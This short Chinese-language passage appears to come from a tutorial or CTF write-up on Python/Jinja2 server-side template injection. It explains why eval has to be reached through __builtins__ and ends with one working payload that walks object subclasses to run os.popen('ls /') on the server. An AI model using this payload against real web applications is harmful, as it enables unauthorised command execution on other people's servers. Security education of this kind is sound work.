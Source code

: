 ![image-20231130012323844](../.gitbook/assets/image-20231130012323844.png)

但由于 `eval` 在全局域中是一个 `built-in function` 即 **内置函数** ，所以我们无法直接通过 `__globals__['eval']` 来直接调用内置函数，Python的内置函数和对象通常是全局可用的，但它们通常不是函数内部的一部分。因此，要在函数内部访问内置函数（如`eval`）或内置对象（如`os`），需要通过`__builtins__`来访问。

`{{().__class__.__base__.__subclasses__()[194].__init__.__globals__.__builtins__['eval']('__import__("os").popen("ls /").read()')}}`
